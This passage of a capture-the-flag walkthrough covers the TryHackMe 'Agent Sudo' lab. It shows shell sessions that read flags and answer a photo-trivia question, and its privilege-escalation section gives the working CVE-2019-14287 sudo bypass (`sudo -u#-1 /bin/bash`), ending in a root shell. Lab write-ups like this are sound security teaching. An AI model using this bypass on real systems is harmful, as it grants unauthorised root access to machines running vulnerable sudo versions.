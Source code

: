 ```bash
james@agent-sudo:~$ ls
Alien_autospy.jpg  user_flag.txt
james@agent-sudo:~$ cat user_flag.txt 
REDACTED
```


### What is the incident of the photo called?
- **Answer:** Roswell alien autopsy
- **Steps to Reproduce:** Visit [Foxnews - Filmmaker reveals how he faked infamous 'Roswell alien autopsy' footage in a London apartment](https://www.foxnews.com/science/filmmaker-reveals-how-he-faked-infamous-roswell-alien-autopsy-footage-in-a-london-apartment?fbclid=IwAR0Qze0QmMWd0STeGhIOkXO_Gv-dgFxDn3fBwa5JYqGMglG0pDW0Zu5DxkA)

---

## Privilege escalation

### CVE number for the escalation 
- **Answer:** [CVE-2019-14287](https://www.exploit-db.com/exploits/47502)
- **Steps to Reproduce:** 

```bash
james@agent-sudo:~$ sudo -l
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

- Google this `(ALL, !root) /bin/bash`
- Confirm that the sudo version is exploitable: (Sudo version before 1.8.28)

```bash
james@agent-sudo:~$ sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```


### What is the root flag?

- Exploit the sudo vulnerability using `sudo -u#-1 /bin/bash` or `sudo -u#4294967295 /bin/bash`

```bash
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# cd /root/
root@agent-sudo:/root# ls
root.txt
root@agent-sudo:/root# cat root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
REDACTED

By,
DesKel a.k.a Agent R
```
